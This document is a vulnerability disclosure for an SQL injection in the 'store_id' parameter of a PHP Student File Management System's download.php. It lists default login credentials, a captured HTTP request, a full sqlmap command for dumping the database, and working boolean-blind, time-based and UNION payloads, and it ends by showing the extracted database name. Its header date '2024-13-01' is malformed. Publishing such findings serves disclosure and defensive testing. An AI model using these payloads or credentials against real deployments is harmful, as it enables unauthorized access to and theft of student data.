 # 2024_Student_File_Managment_System_SQL_-Injection

+ **Exploit Title:** 2024_Student_File_Managment_System_SQL_-Injection
+ **Date:** 2024-13-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/student-file-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/3e3502a1-11ea-4e87-9d05-12d6204789d6
+ **Version:** 1.0(2024)
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
Student File Managment System 2024 allows SQL Injection via parameter 'store_id' in "/SFMS/download.php?store_id=5". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit latest vulnerabilities in the underlying database

## Proof of Concept:
+ Go to the Student Dashboard: "http://localhost/sfms/"
+ Fill in the Student ID and Password with `1353`:`password` and login.
+ Student Details: 
"http://localhost/sfms/student_profile.php"
+ Copy the link to the File Download button. 
+ And receive the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /SFMS/download.php?store_id=5 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'store_id' parameter to dump the database.
```
sqlmap -r r.txt -p store_id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: store_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: store_id=5' AND 8329=8329-- xGzO

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: store_id=5' AND (SELECT 2163 FROM (SELECT(SLEEP(5)))YwjC)-- nIjk

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: store_id=-6687' UNION ALL SELECT NULL,CONCAT(0x71627a7171,0x726c465a49424e6674617248747642664f534f716f674e774e59424f6f66456e424249774a4b797a,0x7178766271),NULL,NULL,NULL-- -
```
+ Current Database : `db_sfms`
![Ekran görüntüsü 2024-01-13 165828](https://github.com/BurakSevben/2024_Student_File_System_SQL_-njection/assets/117217689/7ddff51a-1870-45f9-b901-f5096e16dd88)


